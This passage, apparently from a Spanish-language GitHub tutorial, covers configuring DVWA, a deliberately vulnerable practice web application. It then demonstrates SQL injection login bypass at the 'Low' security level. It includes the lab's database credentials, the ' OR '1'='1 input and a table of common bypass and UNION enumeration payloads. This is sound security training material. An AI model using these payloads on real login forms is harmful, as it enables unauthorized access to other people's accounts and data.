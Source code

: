 Edita estas líneas:

```php
$_DVWA[ 'db_user' ] = 'dvwa';
$_DVWA[ 'db_password' ] = 'dvwa';
```

---

##### 5. Abre el navegador:

Accede a:
📎 `http://localhost/DVWA`

Y crea la base de datos desde la web con el botón **"Create / Reset Database"**.

✅ ¡Listo para practicar!

---

### 🔍 Ejemplo completo: SQL Injection para Login Bypass en DVWA

#### Nivel de seguridad: **Low**

1. Ve a:
   `http://localhost/DVWA/vulnerabilities/brute/`

   o

   `http://localhost/DVWA/vulnerabilities/login/` (según la versión)

2. Introduce en **usuario**:

```
' OR '1'='1
```

Y en **contraseña**:

```
' OR '1'='1
```

✅ ¡Te logueaste sin conocer la contraseña real!

---

#### 🧪 Variantes de payloads comunes para Login Bypass

| Payload                   | Descripción                               |
| ------------------------- | ----------------------------------------- |
| `' OR '1'='1`             | Inyección básica que siempre es verdadera |
| `' OR 1=1-- `             | Comenta el resto de la consulta           |
| `admin' -- `              | Cierra el string y comenta la contraseña  |
| `' UNION SELECT 1,2,3-- ` | Prueba de columnas (enumeración)          |

---